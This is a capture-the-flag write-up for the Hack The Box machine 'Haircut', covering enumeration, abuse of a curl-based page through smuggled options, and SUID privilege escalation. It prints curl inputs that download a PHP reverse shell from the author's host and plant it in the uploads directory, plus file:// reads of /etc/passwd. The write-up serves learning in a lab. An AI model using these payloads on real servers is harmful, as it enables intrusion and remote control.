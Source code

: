 # Index
1. [[#Enumeration]]
	<br>
	1.1 [Nmap](#nmap)
	1.2 [Website](#website)
	</br>

2. [[#Alternative way to user flag]]
3. [[#Privesc]]

#### Tags
<details markdown='1'>
<summary>Click to get a hint</summary> 
<ul>
	<li>Abusing curl</li>
	<li>SUID privilege escalation</li>
</ul>
</details>

### Enumeration 
**IP Address** 10.10.10.24

#### Nmap
As usual, the initial step at the beginning is running an Nmap. After running one simple command to check all the ports (option -p- of *nmap*), only ports 22 and 80 are open. Then, the next step I usually do, is running a more detailed scan, obtaining the following results:

```shell
sudo nmap -sC -sV -O -p 22,80 10.10.10.24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-01 10:55 EDT
Nmap scan report for 10.10.10.24
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.31 seconds
```


#### Web site
As it can bee observed, we only have webite without even *robots.txt* file.
While navigatin through the website, it seems quite empty, as it only contains one picture:

![Image 1](pictures/haircut-01.png)

After reviewing the source code, nothing is discovered, so it's time for some *fuzzing*.

I am very used to *gobuster* and the syntas I use is the following:
![Image 1](pictures/haircut-02.png)

Thanks to *gobuster*, a resource named *exposed.php* is found. It looks like the following image:
![Image 1](pictures/haircut-03.png)

It seems like is using something like curl to ask for a web resource. The first thing I thought was *ssrf*, but I wasn´t able to obtain nothing from the *uploads* directory. 
The following try, was leaving empty the input field and clicking "go". After this, the message obtained was this one:
![Image 1](pictures/haircut-04.png)

It is obviously using curl. If you try to only write "-- help" and click *go* after that, you will receive the *help* menu of curl. 
So, to summarize, we have a webpage running at a linux server that performs curl request. My first though here is to concatenate commands (in linux it can be done with some metacharacters such as &,| or ;).
Anyways, if you try to use any of these characters, the *exposed.php* will block your request, as the input is sanitized in some way:
![Image 1](pictures/haircut-05.png)

After thinking about some options, I figured the following way out to read the some output from commands:
![Image 1](pictures/haircut-06.png)

As it can be observed, the '$' character was not limitated, so I created a server at my machine and made some requests in order to obtain, at least, the path.
This leaded me to nowhere, but I was useful in the next step.

Once I was here, I recalled that I was able to use all the options that the curl command has. So what about using the output argument to save a file (a shell, maybe) from my machine into the *Haircut* server?
With the input:
```shell
http://10.10.16.9:8000/php-reverse-shell.php -o php-reverse-shell.php
```
it should be possible to save the file in the server.
However, after doing this, I found that the user running curl had no permissions to write in the actual folder:
![Image 1](pictures/haircut-07.png)

I was thinking to write the file in the */tmp* directory, but I had no way to request this file after it. Reviewing my notes, I saw the /uploads/ directory. And, as I had the path in which the command is running, I only had to add the directory:

```shell
http://10.10.16.9:8000/php-reverse-shell.php --output //var/www/html/uploads/php-reverse-shell.php
```

This time it was possible to write the file!
Now the only thing left to obtain a shell is establishing the listener in my machine and making a request from *exposed.php* to:
```
http://localhost/uploads/php-reverse-shell.php 
```

After making this previous request, we have a shell and the user flag:
![Image 1](pictures/haircut-08.png)


### Alternative way to user flag

Feel free if you want to skip directly into the [[#Privesc]] section. 
While I was reading the curl manual, I found a way to read files with curl. In this machine, this way allows us to read the */etc/passwd* to discover the user directory, and then the user flag.
The input that should be submited in order to get the files is:

```shell
file:///etc/passwd
file:///home/maria/user.txt
```

![Image 1](pictures/haircut-alternative.png)

### Privesc

Right now is time to escalate privileges. As I'have mentioned in other writeups, I usually run some scripts when I have the shell:
- Linpeas/LinEnum
- suid3num
- pspy (just in case I find nothing with the others)

In order to get this files into the machine, I started a server in my kali machine (with python3 as before) and I got them with running *wget* at the Haircut machine.

Both suid3num and Linpeas provides us with this interesting binary (this is the output from suid3num):

![Image 1](pictures/haircut-09.png)

Just googling this binary, we find an [exploit](https://www.exploit-db.com/exploits/41154):

![Image 1](pictures/haircut-10.png)

This scripts works creating two binary files, and abusing one of the libraries that the binary is using. I couldn´t make the script work by itself, however, I broke it into pieces and went manually step by step. 
I even found this [youtube](https://www.youtube.com/watch?v=RP4hAC96VxQ) guide step by step. 

Finally, after following this guide, we obtain a root shell:
![Image 1](pictures/haircut-11.png)

I really recommend watching the video from youtube if you don´t really understand the script, as it is pretty good explained.

And that's all folks, another machine completed. Please, feel free to [contact](https://twitter.com/sergioframi)  me if you want to ask or share anything about this machine. Thanks a lot! 